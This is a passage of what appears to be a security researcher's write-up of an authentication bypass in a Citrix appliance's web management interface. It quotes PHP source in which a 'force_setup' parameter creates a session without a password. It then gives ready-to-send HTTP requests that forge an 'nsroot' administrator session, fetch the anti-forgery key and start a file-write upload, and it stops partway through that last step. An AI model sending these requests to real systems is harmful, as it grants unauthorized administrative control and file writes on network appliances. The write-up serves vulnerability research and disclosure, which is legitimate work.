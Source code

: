 And because we already have a somewhat working session, we get to go straight here:

```php
else if(isset($data["force_setup"]))
{
    $this->load->helper('cookie');
    utils::setup_webstart_user_session(urldecode($data["sid"]), $data["username"], null, true);
}
```

The `setup_webstart_user_session()` function takes the arguments `username`, `sid`, `timezone_offset` and `force_setup`. When `force_setup` is set, a new login is forced without having to know the password:

```php
require_once(APPPATH. "controllers/common/login.php");
$login = new login();
$login->setupUserSession($username, input_validator::get_default_value("timeout"), input_validator::get_default_value("unit"), $timezone_offset, input_validator::get_default_value("jvm_memory"));
```
Ding ding ding! We have a winner. We can force a new session as `nsroot` by using this HTTP request:
```http
GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: SESSID=05afba59ef8e0e35933f3bc266941337
Upgrade-Insecure-Requests: 1
```

## So now what?
Well, we can do several things. We do first need to get our "random" value and save it in our request headers:

```http
GET /menu/stc HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: SESSID=05afba59ef8e0e35933f3bc266941337
Upgrade-Insecure-Requests: 1
```

### Write to a file
```http
POST /rapi/uploadtext HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
DNT: 1
rand_key: 331543635.1580073639558554
Connection: close
Cookie: startupapp=neo; is_cisco_platform=0; st_splitter=350px; SESSID=05afba59ef8e0e35933f3bc266941337; rdx_pagination_size=25%20Per%20Page
```